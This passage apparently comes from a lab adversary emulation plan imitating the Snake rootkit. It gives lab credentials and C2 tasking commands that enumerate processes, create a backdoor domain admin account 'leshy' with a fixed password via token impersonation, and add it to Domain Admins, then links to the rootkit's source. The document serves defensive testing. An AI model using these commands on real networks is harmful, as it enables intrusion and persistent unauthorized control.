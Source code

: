 | Username   | Password |
| :--------: | :---------------: |
| nk\ZilvinasAdmin | Producer2! |

* A new powershell window should pop up. Run the following command to ensure that you are running as `nk\ZilvinasAdmin`:
```pwsh
whoami
```

:arrow_right: Return to the Kali C2 server

* From the lower terminal window, task Snake to enumerate running processes on the machine to discover processes under `ZilvinasAdmin`.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 3, "proc": "tasklist.exe", "args": "/v"}'
```

* :heavy_exclamation_mark: Verify that we find processes running under `ZilvinasAdmin`

```bash
grep 'NK\\ZilvinasAdmin' logs.txt -i 
```

* This should return output similar to the following:
  * > ```
    > powershell.exe                8152 RDP-Tcp#2                  3     83,280 K Unknown         NK\ZilvinasAdmin                                        0:00:00 N/A
    > conhost.exe                    312 RDP-Tcp#2                  3     17,356 K Unknown         NK\ZilvinasAdmin                                        0:00:00 N/A
    > ```

* Wait 1 minute, then instruct Snake to create a new domain user `Leshy` using an access token from one of the `ZilvinasAdmin` processes. `Leshy` will be used as a backdoor domain admin account for persistence on the domain.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "net user leshy Password12345 /add /domain", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute, then instruct Snake to add `Leshy` to the `Domain Admins` group.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "net group \"Domain Admins\" leshy /add /domain", "runas": "nk\\zilvinasadmin"}'
```

### :moyai: Source Code
* [Snake Installer](../../Resources/Snake/SnakeInstaller/README.md)
  * [Privilege Escalation](../../Resources/Snake/SnakeInstaller/src/privesc/privesc.cpp#L180)
  * [Disable DSE and Load Rootkit](../../Resources/Snake/SnakeInstaller/src/main.cpp#L63)
  * [Start Snake Rootkit Driver](../../Resources/Snake/SnakeInstaller/src/driver/driver.cpp#L111)
* [Snake Rootkit](../../Resources/Snake/README.md)
  * [Driver](../../Resources/Snake/SnakeDriver/SnakeDriver/driver.c#L76)
  * [Function Hooking](../../Resources/Snake/SnakeDriver/SnakeDriver/hooks.c#L31)
    * [Infinity Hook](../../Resources/Snake/SnakeDriver/libinfinityhook/README.md)
  * [Drop DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/filesystem.cpp#L22)
  * [Trigger injection on network request](../../Resources/Snake/SnakeDriver/SnakeDriver/wfp.cpp#L276)
  * [Inject Usermodule DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/inject.cpp#L30)
* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [C2 communications over HTTP](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task download](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task execution for generic process](../../Resources/Snake/UserModule/src/execute.cpp#L406)
  * [Task execution via cmd with optional token impersonation](../../Resources/Snake/UserModule/src/execute.cpp#L337)
  * [Token duplication](../../Resources/Snake/UserModule/src/execute_token.cpp#L284)
  * [Payload download](../../Resources/Snake/UserModule/src/comms_http.cpp#L604)